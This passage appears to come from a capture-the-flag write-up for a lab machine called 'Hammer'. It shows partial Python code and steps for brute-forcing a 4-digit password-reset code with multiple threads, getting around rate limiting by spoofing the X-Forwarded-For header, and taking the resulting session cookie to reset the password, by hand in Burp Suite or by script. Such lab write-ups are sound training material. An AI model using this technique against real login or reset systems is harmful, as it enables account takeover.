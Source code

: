 ```python
             
        thread = threading.Thread(target=enumerate_codes, args=([codes_thread_subset]))
        threads.append(thread)
        thread.start()
        
    for thread in threads:
        thread.join()
        
        
if __name__ == "__main__":
    main()
```

#### Script Flow

1. Send a password reset request to initialize the flow for the target email.
2. Brute-force the 4-digit recovery code using multithreading.
3. Bypass rate limiting using a spoofed X-Forwarded-For header.
4. When correct recovery code is found extract session cookie to proceed with password reset.

#### Detailed Script Flow

<details><summary>Show</summary></details>  

#### Script Execution 

```
python3 brute-force-recovery-code.py
```
<img src="./images/brute-force-script.png" alt="" width="100%"/> 

#### Resetting Password (manual method using Burp Suite)

- Intercepted a GET request to `/reset_password.php` in Burp Suite ([See screenshot](#burp-suite-intercept-reset-password-request)). 
- Replaced session cookie with session cookie returned by Python script ([See screenshot](#burp-suite-add-session-cookie)).
- Forwarded request
- Entered a new password in the displayed form ([See screenshot](#enter-new-password)).

#### Resetting Password (automated method using Python script)

Added a `reset_password()` method that sends a POST request with a new password after successful brute-forcing of recovery code.

```python
#!/usr/bin/env python3

import sys
import threading
import requests

url = 'http://hammer.thm:1337/reset_password.php' 
email = "tester@hammer.thm"
stop_flag = threading.Event()
thread_count = 50
session = requests.Session()
invalid_code_message = "Invalid or expired recovery code!"

def reset_password():
    new_password = "password123"
```